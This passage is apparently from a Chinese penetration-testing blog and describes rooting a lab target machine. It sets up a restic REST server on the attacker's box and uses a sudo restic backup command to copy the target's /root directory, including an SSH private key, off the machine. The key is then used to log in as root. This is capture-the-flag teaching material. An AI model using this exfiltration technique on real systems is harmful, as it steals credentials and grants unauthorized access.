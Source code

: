 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNpM0La2OYxxEEtMbmgDRgRuVZVh7cSscu2e9wshrWJM1PVVH71u0CZCeUNyvITuWibibJ4M8Ok7B7w/640?wx_fmt=png)

然后需要把出站链接流量转发到本地 kali 上...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNpM0La2OYxxEEtMbmgDRgRxgAZhwVTXfXhFj0x4wFXAeo3wJLcaTV9PVThc6tQp61PpY5PdPZib9w/640?wx_fmt=png)

```
service docker restart
docker pull restic/rest-server
docker run -p 8000:8000 -v /home/dayu/桌面/dayuRegistry/dayu/:/dayu -it restic/rest-server sh
```

为用户设置密码和转发流量后，可以初始化一个新的存储库以进行备份...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNpM0La2OYxxEEtMbmgDRgRlBqfModAcko8TqdasuMofd8Abr58Dfshk34r2moFV7SoGXUGWC5eng/640?wx_fmt=png)

```
sudo restic backup -r rest:http://127.0.0.1:8000/ /root
```

将靶机上的 root 目录全部通过端口流量转发进行备份...

然后通过 restic -r 还原快照，获取到了靶机上 root 目录所有信息... 查看到了 id_rsa 和 flag 信息...

可看到还有个 cron.sh 脚本，这就是每次删除文件上传的 shell... 可恨

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNpM0La2OYxxEEtMbmgDRgR0KERZPUg6hWmiab9X32XaNDBuAA4fJhv9C3ibxicRgqPrqvtFpsYffEicg/640?wx_fmt=png)

通过 id_rsa 直接登录获得了 root 权限...

![](https://mmbiz.qpic.cn/mmbiz_png/ZREXjsC2nJKx0JHGsC5rFpiaQjsk60OEibhDJ4vLJgUl7n0nCnGoCmtcS6TWpecmKRlG5IwNnyjGHau71NkOwyTw/640?wx_fmt=png)

这台靶机主要盲点在 docker-restic 这块... 前面应该是遇到过，我换可 kali 后安装不上... 就浪费了很多很多时间...

后来通过朋友知道了方法，安装上了后才继续进行 restic 的提权，也可能是自己不够精通，可能有别的方法能拿到 flag?

加油

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/9h3lBeicPhRCbL55vicQK1Qj4FqoebibNv9EhH20XgIRH3RZicuNRbKdZqdDr5c2JMCyJWH8zicp8cJH9gJCp0Zy8Qg/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)